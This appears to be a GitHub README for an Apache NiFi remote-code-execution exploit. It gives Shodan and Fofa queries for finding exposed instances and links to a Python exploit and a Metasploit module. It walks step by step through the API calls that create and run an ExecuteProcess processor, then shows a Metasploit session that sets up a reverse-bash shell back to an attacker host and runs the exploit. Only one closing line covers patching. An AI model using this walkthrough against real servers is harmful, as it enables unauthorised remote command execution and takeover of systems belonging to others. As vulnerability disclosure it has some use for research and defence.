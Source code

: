 # Apache NiFi Processor RCE (Oct 3 2020)
Apache NiFi is a software project to automate the flow of data between software systems.  
This module uses the NiFi API to create an ExecuteProcess processor that will execute OS commands. The API must be unsecured (or credentials provided) and the ExecuteProcess processor must be available. An ExecuteProcessor processor is created then is configured with the payload and started. The processor is then stopped and deleted.

API Executing Process: https://nifi.apache.org/docs/nifi-docs/components/org.apache.nifi/nifi-standard-nar/1.12.1/org.apache.nifi.processors.standard.ExecuteProcess/  

Vulnerable architectures: **x86, x64**  
Vulnerable platforms: **Linux, OSX, Unix, Windows**  
Vulnerable protocols: **http, https**  

**Please be aware that this exploit leaves signs of a compromise in a log file (Example: SQL injection data found in HTTP log) and modifies some configuration setting on the target machine, this is not a guide on how to exploit others, this is a guide on how to reproduce the vulnerability and how to fix it.**  

Python Raw Exploit: https://raw.githubusercontent.com/imjdl/Apache-NiFi-Api-RCE/master/exp.py  

MetaSploit Exploit: https://dl.packetstormsecurity.net/2011-exploits/apache_nifi_processor_rce.rb.txt  
MetaSploit Linux Default Payload: **cmd/unix/reverse_bash**  
MetaSploit Windows Default Payload: **cmd/windows/reverse_powershell**  

Shodan Query: `title:"NiFi"`  
Fofa Query: `title=="NiFi"`  

# How does the Exploit work
## GET /nifi-api/access/config: Used to check whether the target is running NiFi and whether authentication is required.  
Example Output:
<pre>{
    "config": {
	    "supportsLogin": true
	}
}</pre>

## POST /nifi-api/access/token: Used to obtain an access token using supplied credentials (if authentication is required).  
Content-Type: **application/x-www-form-urlencoded**  
HTTP Parameters: **username, password**  
| Status code  | Description |
|---|---|
| 200	| Successful operation. |
| 400	|	NiFi was unable to complete the request because it was invalid. The request should not be retried without modification. |
| 403	|	Client is not authorized to make this request. |
| 409	|	Unable to create access token because NiFi is not in the appropriate state. (i.e. may not be configured to support username/password login. |
| 500	|	Unable to create access token because an unexpected error occurred. |  

## GET /nifi-api/process-groups/root: Used to obtain the ID of the root process group.  
Example Output:
<pre>{
    "revision": {REDACTED},
    "id": "value",
    "uri": "value",
    "position": {REDACTED},
    "permissions": {REDACTED},
    "bulletins": [{REDACTED}],
    "disconnectedNodeAcknowledged": true,
    "component": {REDACTED},
    "status": {REDACTED},
    "versionedFlowSnapshot": {REDACTED},
    "runningCount": 0,
    "stoppedCount": 0,
    "invalidCount": 0,
    "disabledCount": 0,
    "activeRemotePortCount": 0,
    "inactiveRemotePortCount": 0,
    "versionedFlowState": "value",
    "upToDateCount": 0,
    "locallyModifiedCount": 0,
    "staleCount": 0,
    "locallyModifiedAndStaleCount": 0,
    "syncFailureCount": 0,
    "localInputPortCount": 0,
    "localOutputPortCount": 0,
    "publicInputPortCount": 0,
    "publicOutputPortCount": 0,
    "parameterContext": {REDACTED},
    "inputPortCount": 0,
    "outputPortCount": 0
}</pre>
## POST /nifi-api/process-groups/\<ROOT-PROCESSOR-GROUP-ID\>/processors: Used to create an ExecuteProcess processor in the root group.  
Content Type: **application/json**
Post Data:
<pre>{
    "component": {
        "type": "org.apache.nifi.processors.standard.ExecuteProcess"
    },
    "revision": {
        "version": 0
    }
}</pre>

## PUT /nifi-api/processors/\<NEW-PROCESSOR-ID\>: Used to configure the new ExecuteProcess processor and run the OS command.
## PUT /nifi-api/processors/\<NEW-PROCESSOR-ID\>/run-status: Used to stop the new ExecuteProcess processor prior to deletion.  
## DELETE /nifi-api/processors/\<NEW-PROCESSOR-ID\>/threads: Used to terminate threads in case stopping failed.
## DELETE /nifi-api/processors/\<NEW-PROCESSOR-ID\>: Used to delete the processor.

## Using apache_nifi_processor_rce's Exploit
<pre>msf6 > use exploit/multi/http/apache_nifi_processor_rce
[*] Using configured payload cmd/unix/reverse_bash</pre>
## Local IP for Reverse Shell Connection
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set LHOST 192.168.60.7
LHOST => 192.168.60.7</pre>
## Local Port for Reverse Shell Connection
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set LPORT 4444
LPORT => 4444</pre>
## Remote IP for Exploit Execution
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set RHOST 192.168.60.57
RHOST => 192.168.60.57</pre>
## Remote Port for Exploit Execution
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set RPORT 8080
RPORT => 8080</pre>
## Checking Current Exploit Options
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > show options</pre>
![msf1](https://user-images.githubusercontent.com/94451745/149518743-e2ad0802-819a-4037-9798-8422f0c236c4.png)
## Running Exploit
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > run</pre>
![msf2](https://user-images.githubusercontent.com/94451745/149520071-97c27099-82df-493b-9ead-a5a96afcc29b.png)
## Vulnerability patching
Upgrade to the latest version, add/change current credentials and setup an IP whitelist in your current firewall settings.

